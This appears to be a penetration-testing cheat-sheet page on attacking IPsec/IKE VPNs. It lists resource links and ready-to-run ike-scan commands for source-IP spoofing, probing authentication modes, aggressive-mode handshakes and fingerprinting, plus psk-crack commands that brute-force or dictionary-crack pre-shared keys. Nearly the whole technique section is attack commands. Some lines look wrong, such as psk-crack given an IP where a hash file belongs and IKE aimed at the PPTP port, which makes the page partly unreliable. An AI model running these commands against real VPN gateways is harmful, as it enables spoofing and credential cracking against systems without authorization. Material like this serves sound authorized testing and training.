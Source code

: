 # ⭕ VPNs

## <mark style="color:red;">Resources</mark>

{% embed url="https://github.com/0x90/vpn-arsenal" %}

{% embed url="https://opensourceforu.com/2012/01/ipsec-vpn-penetration-testing-backtrack-tools" %}

{% embed url="http://devloop.users.sourceforge.net/index.php?article108%2Fsolution-du-ctf-hacklab-vulnvpn=" %}

{% embed url="https://resources.infosecinstitute.com/vulnvpn#gref" %}

{% embed url="https://0xrick.github.io/hack-the-box/conceal#ike-scan-Setting-up-The-Connection" %}

## <mark style="color:red;">Techniques</mark> <a href="#exploitation-techniques" id="exploitation-techniques"></a>

### <mark style="color:orange;">IKEv2 Authenthication IP spoofing</mark>

```
ike-scan --sport=1723 --dport=1723 --sourceip=IP_To_Spoof --ikev2 <IP>
```

#### Trying all authentication modes

```
ike-scan --dport=1723 --auth=1 <IP>
ike-scan --dport=1723 --auth=3 <IP>
ike-scan --dport=1723 --auth=64221 <IP>
```

#### IP spoofing using ike-scan

```
ike-scan --dport=1723 --sourceip=IP_To_Spoof  --auth=1 <IP>
ike-scan --dport=1723 --sourceip=IP_To_Spoof  --auth=3 <IP>
ike-scan --dport=1723 --sourceip=IP_To_Spoof  --auth=64221 <IP>
```

#### IP spoofing and agressive mode

```
ike-scan --dport=1723 --sourceip=IP_To_Spoof -A --auth=1 <IP>
ike-scan --dport=1723 --sourceip=IP_To_Spoof -A --auth=3 <IP>
ike-scan --dport=1723 --sourceip=IP_To_Spoof -A --auth=64221 <IP>
```

#### Show fingerprint

```
ike-scan --dport=1723 --sourceip=IP_To_Spoof -A --auth=1 --showbackoff <IP>
ike-scan --dport=1723 --sourceip=IP_To_Spoof -A --auth=3 --showbackoff <IP>
ike-scan --dport=1723 --sourceip=IP_To_Spoof -A --auth=64221 --showbackoff <IP>
```

#### Crack the key using psk-crack

```
psk-crack hash-file.txt
psk-crack -b 5 IP
psk-crack -b 5 --charset="01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz" <IP>
psk-crack -d wordlist.txt <IP>
```

